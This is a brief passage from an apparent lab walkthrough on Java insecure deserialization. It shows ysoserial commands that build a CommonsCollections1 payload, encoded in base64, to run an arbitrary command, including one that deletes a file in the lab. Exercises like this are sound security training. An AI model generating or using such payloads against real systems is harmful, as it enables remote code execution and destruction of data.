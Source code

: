   <img src="image2.png" width="800" hight="500"/>
</p>

We will use tool [Ysoserial](https://github.com/frohoff/ysoserial) tool

To use it like the following which will generate a base64 serialized object which will execute the `CMD Code` you will give

```bash
$ java -jar ysoserial-all.jar CommonsCollections1 <CMD Code> | base64 -w 0
```

In the lab, it need to delete .txt file

```bash
$ java -jar ysoserial-all.jar CommonsCollections1 'rm /home/carlos/morale.txt' | base64 -w 0
```

The above command will generate a base64-encoded text in Linux

In windows, you need to copy the following text and encode it manually

<p align="center" width="100%">